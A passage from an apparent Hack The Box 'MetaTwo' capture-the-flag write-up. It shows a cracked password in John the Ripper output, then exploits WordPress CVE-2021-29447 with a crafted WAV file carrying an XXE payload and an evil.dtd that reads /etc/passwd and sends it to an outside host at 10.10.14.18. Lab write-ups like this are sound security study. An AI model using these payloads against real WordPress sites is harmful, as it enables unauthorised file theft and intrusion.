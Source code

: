 ```bash
└─# john --show hashs
Passpie:blink182:::Passpie (Auto-generated by Passpie) <passpie@local>::keys

1 password hash cracked, 0 left
```
Logged in and we were in this dashboard

![Alt text](/assets/img/htb/MetaTwo/mt8.png)

## Exploiting wordpress to get a shell

Remember to that exploit we got ealier `CVE-2021-29447`, Well this is the time to try it and with this [PoC](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)

1st we generate the WAVE file with the payload that I used with the following command:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"\"http://10.10.14.18/evil.dtd\""'>%remote;%init;%trick;]>\x00' > upload.wav
```

And inside the evil.dtd I put the following XML document:

```bash
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.18:9001/?p=%file;'>" >

```

and uploaded it the wordpress

![Alt text](/assets/img/htb/MetaTwo/mt9.png)
